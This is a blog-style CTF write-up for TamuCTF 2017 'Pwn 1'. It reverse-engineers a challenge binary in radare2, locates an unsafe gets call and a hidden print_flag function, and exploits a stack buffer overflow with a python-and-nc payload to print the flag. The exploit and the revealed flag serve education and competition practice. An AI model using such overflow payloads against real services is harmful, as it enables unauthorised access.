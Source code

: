 ```yaml
---
author:
  email: tzaoh1@gmail.com
  github: https://github.com/tzaoh
  image:
  - /images/avatar-64x64.png
  name:
  - Tzaoh
cardbackground: 'white'
cardtitlecolor: 'orange'
post_categories:
- CTFs
date: 2017-05-27T18:56:18+02:00
description: a
tags:
- test
title: "TamuCTF 2017 - Pwn 1"
summary: "We are told that there is a binary running remotely and its code is available to download. Lets download and open it with r2."
cardthumbimage: "/assets/TamuCTF2017/title.png"
---
```


![Pwn1 Challenge Description](/assets/TamuCTF2017/pwn1/1-pwn1_description.png)

We are told that there is a binary running remotely and its code is available to download. Lets download and open it with r2.

```bash
$ wget https://ctf.tamu.edu/files/7e968d03d9caa11a2f4f2909bd3cabc9/pwn1
$ r2 pwn1
```

Now that the binary is opened, we need to analyze its content.

{{< highlight r2 "hl_lines=28 29" >}}
[0x08048450]> afl
0x08048390    3 35           sym._init
0x080483b3    1 25           fcn.080483b3
0x080483cc    1 4            sub.gets_12_3cc
0x080483d0    1 6            sym.imp.gets
0x080483d6    2 10   -> 22   fcn.080483d6
0x080483e0    1 6            sym.imp._IO_getc
0x080483e6    2 10   -> 22   fcn.080483e6
0x080483f0    1 6            sym.imp.puts
0x080483f6    2 10   -> 22   fcn.080483f6
0x08048400    1 6            sym.imp.__libc_start_main
0x08048406    2 10   -> 22   fcn.08048406
0x08048410    1 6            sym.imp.setvbuf
0x08048416    2 10   -> 22   fcn.08048416
0x08048420    1 6            sym.imp.fopen
0x08048426    2 10   -> 22   fcn.08048426
0x08048430    1 6            sym.imp.putchar
0x08048436    2 10   -> 22   fcn.08048436
0x08048440    1 6            sub.__gmon_start___252_440
0x08048448    1 8            fcn.08048448
0x08048450    1 33           entry0
0x08048471    1 1            fcn.08048471
0x08048480    1 4            sym.__x86.get_pc_thunk.bx
0x08048490    4 43           sym.deregister_tm_clones
0x080484bc    4 57           fcn.080484bc
0x080484f5    3 41           fcn.080484f5
0x08048520    8 43   -> 93   sym.frame_dummy
0x0804854b    4 103          sym.print_flag
0x080485b2    4 120          main
0x08048630    4 93           sym.__libc_csu_init
0x0804868d    1 5            fcn.0804868d
0x08048692    1 22           fcn.08048692
{{< /highlight >}}

Interesting, there is `print_flag` function at `0x0804854b`. Lets see what's inside.

{{< highlight r2 "hl_lines=18 20" >}}
[0xf771eac0]> s sym.print_flag	# We move to beginning of print_flag function
[0x0804854b]> pdf 
/ (fcn) sym.print_flag 103
|   sym.print_flag ();
|           ; var int local_dh @ ebp-0xd
|           ; var int local_ch @ ebp-0xc
|           ; CALL XREF from 0x08048606 (main)
|           0x0804854b      55             push ebp
|           0x0804854c      89e5           ebp = esp
|           0x0804854e      83ec18         esp -= 0x18
|           0x08048551      83ec0c         esp -= 0xc
|           0x08048554      68b0860408     push str.How_did_you_figure_out_my_secret__
|              ; int puts(const char *s)
|           0x08048559      e892feffff     sym.imp.puts ()
|           0x0804855e      83c410         esp += 0x10
|           0x08048561      83ec08         esp -= 8
|           0x08048564      68d3860408     push 0x80486d3
|           0x08048569      68d5860408     push str.flag.txt                                  
|              ; file*fopen(const char *filename,
|           0x0804856e      e8adfeffff     sym.imp.fopen ()                                   
|           0x08048573      83c410         esp += 0x10
|           0x08048576      8945f4         dword [local_ch] = eax
|       ,=< 0x08048579      eb10           goto 0x804858b
|       |      ; JMP XREF from 0x080485a0 (sym.print_flag)
|      .--> 0x0804857b      0fbe45f3       eax = byte [local_dh]
|      ||   0x0804857f      83ec0c         esp -= 0xc
|      ||   0x08048582      50             push eax
|      ||   0x08048583      e8a8feffff     sym.imp.putchar ()          ; int putchar(int c)
|      ||   0x08048588      83c410         esp += 0x10
|      !|      ; JMP XREF from 0x08048579 (sym.print_flag)
|      |`-> 0x0804858b      83ec0c         esp -= 0xc
|      |    0x0804858e      ff75f4         push dword [local_ch]
|      |    0x08048591      e84afeffff     sym.imp._IO_getc ()         ; int getc(FILE *steam)
|      |    0x08048596      83c410         esp += 0x10
|      |    0x08048599      8845f3         byte [local_dh] = al
|      |    0x0804859c      807df3ff       var = byte [local_dh] - 0xff ; [0xff:1]=8
|      `==< 0x080485a0      75d9           if (var) goto 0x804857b
|           0x080485a2      83ec0c         esp -= 0xc
|           0x080485a5      6a0a           push 0xa
|           0x080485a7      e884feffff     sym.imp.putchar ()          ; int putchar(int c)
|           0x080485ac      83c410         esp += 0x10
|           0x080485af      90             
|           0x080485b0      c9             
\           0x080485b1      c3 
{{< /highlight >}}

Because of the offsets `0x08048569` and `0x0804856e` we can deduce that the function opens a file called `flag.txt` and prints its content. Fantastic :v: , so we just need to know who will call `print_flag`. This can be figured out through the `axt` command of r2 which stands for "cross reference to" the actual function.

```r2
[0x0804854b]> axt
call 0x8048606 call sym.print_flag in main
```

Cool, so this function will be called from offset `0x8048606` `main` Lets see whats inside it.

```r2
[0x0804854b]> s main
[0x080485b2]> pdf
```
![Pwn1 Condition](/assets/TamuCTF2017/pwn1/3-pwn1_condition.png)

We see that `print_flag` will be called if the condition `local_ch == 0xca11ab1e` is not satisfied. But wait a moment, if we give a closer look to the assembly instrucctions we realized that the only variable we are supposed to edit is `local_27h` through the `gets` function:

![Pwn1 Gets Call](/assets/TamuCTF2017/pwn1/4-pwn1_gets_call.png)

So what we need to do? As maybe you know, `gets` is an unsecure function, because it does not check how many characters it must copy in memory when you introduce them. Then if we input more characters than it is supposed store, we will be able to overwrite neighbor local variables!

How can we know the length of the string we must provide? By knowing where the variables are stored onto the stack

![Pwn1 Stack diagram](/assets/TamuCTF2017/pwn1/5-pwn1_stack_view.png)

So finally, how many bytes do we need to start writting `local_ch`
Easy!

`($ebp - 0xC) - ($ebp - 0x27)  = 0x27 - 0xC = 0x1B = 27d` 27 Characters.

```bash
$ python -c 'print("A"*27 + "\x1E\xAB\x11\xCA")' | nc pwn.ctf.tamu.edu 4322
Enter the secret word:
How did you figure out my secret?!
gigem{T00_435Y}
```

Answer: gigem{T00_435Y}

### Complete video

<a href="https://asciinema.org/a/2juhmtxkdf7qrnzbury7rzzjc?autoplay=1"><img src="https://asciinema.org/a/2juhmtxkdf7qrnzbury7rzzjc.png" width="400"/></a>

### Tools used:

 * [radare2](https://github.com/radare/radare2) - To analyze the binary.
 * [draw.io](https://www.draw.io/) - To draw some graphics.
 * [asciinema](https://asciinema.org) - To record the session.
